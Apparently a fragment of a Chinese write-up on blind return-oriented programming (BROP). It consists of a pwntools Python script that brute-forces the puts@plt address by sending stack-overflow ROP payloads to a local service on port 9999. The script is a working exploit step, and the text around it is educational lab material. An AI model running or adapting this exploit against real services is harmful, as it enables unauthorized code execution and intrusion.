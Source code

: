 ![image-20220802194235195](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220802194235195.png)

```python
# -*- coding:utf-8 -*-
from __future__ import print_function
from pwn import *

context.log_level = "DEBUG"

def get_puts_plt(buf_size, stop_gadget, useful_gadget, start_addr=0x400000):
    pop_rdi_ret = useful_gadget + 9
    strelf_addr = 0x400000
    puts_plt = start_addr
    while 1:
        puts_plt += 1
        payload = 'a' * buf_size + p64(pop_rdi_ret) + p64(strelf_addr) + p64(puts_plt)+p64(stop_gadget)
        try:
            p = remote("127.0.0.1",9999)
            p.recvline("password?")
            p.sendline(payload)
            checkstr1 = p.recvline(timeout=0.5)
            checkstr2 = p.recvline(timeout=0.5)
            if ('\x7fELF' in checkstr1) and ('WelCome' in checkstr2):
                p.close()
                log.info("find puts_plt address: 0x%x",puts_plt)
                return puts_plt
        except EOFError:
            p.close()
            log.info("not 0x%x, keep find",puts_plt)

if __name__ == "__main__":
    buf_size = 72
    stop_gadget = 0x400590
    useful_gadget = 0x40078a
    puts_plt = get_puts_plt(buf_size, stop_gadget, useful_gadget)
```
